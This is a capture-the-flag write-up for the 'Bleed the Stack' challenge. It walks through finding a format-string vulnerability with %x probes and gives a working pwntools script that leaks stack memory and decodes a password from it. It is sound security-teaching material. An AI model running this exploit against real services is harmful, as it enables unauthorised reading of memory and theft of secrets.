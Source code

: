 ```yaml
---
title: "Bleed the Stack"
description: "An amateur programmer decides that for his hello world program, he will echo whatever you say. Can you find his mistake?"
author: "0x0539"
date: "2023-05-16"
published: true
---
```


# bleed the stack

([challenge page](https://0x0539.net/play/fangorn/bleedthestack))

```
pls@RUBY ~ > nc challenges.0x0539.net 7070
ADVANCED CHALLENGE :: BLEED THE STACK
*****************************

Test me! Enter your name and I'll print it back to you!
```

i started off by sending `%x` as a test, which immediately leaked hex values, so the program is likely vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack):

```
Test me! Enter your name and I'll print it back to you!
%x %x %x %x %x %x %x %x
40 f7f77620 1 0 1 20656854 73736170 64726f77
```

converting those hexadecimal values to ascii, we get the string `@÷÷v [f7f77620] ehTssapdrow` (`[f7f77620]` is invalid ascii). notably, `ehTssapdrow` is little-endian ordering of the ascii string `The password`.
we can build a python program with pwntools to send a tonne of '%x' strings, pad out bytearrays with fewer than 4 bytes, and finally flip each dword. noting that some bytearrays dont appear to have a valid ascii representation, such as `f7f77620`, we can handle any errors by just setting the .

```python
from pwn import *

context.log_level = 'CRITICAL'
host,port = 'challenges.0x0539.net', 7070
format_str = '%x ' * 299

def decode_bytes(dword):
    try:
        decoded = bytes.fromhex(dword).decode('ascii')[::-1] # convert LE to BE
        return ''.join([ch for ch in decoded if 32 <= ord(ch) <= 126])
    except UnicodeDecodeError: # dont bother converting if invalid ascii
        print(f'UnicodeDecodeError on bytearray \\'{dword}\\'.\\n')
        return(f' {dword} ')

def main():
    s = remote(host,port)
    s.recvuntil(b'you!\\n')
    s.sendline(format_str)

    raw_bytes = s.recvall().decode().strip()
    print(f'\\nbytearray:\\n{raw_bytes}\\n')
    dwords = raw_bytes.split(' ')
    dwords = [dword.zfill(8) for dword in dwords] # pad out values lower than 4 bytes
    decoded_dwords = ''.join([decode_bytes(dword) for dword in dwords])
    print(f'leaked:\\n{decoded_dwords}') # print result.
    return('quitting')

main()
```

so our output from this program gives the following LE bytearray:

```bytearray
40 f7f20620 1 0 1 20656854 73736170 64726f77 3a736920 6c5f4920 5f337630 6d723066 625f7434 733675 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

which the python script will convert to ascii:

```bash
@ f7f20620 The password is: [[redacted]] %x %x %x %x %x %x %x %x %x %
```


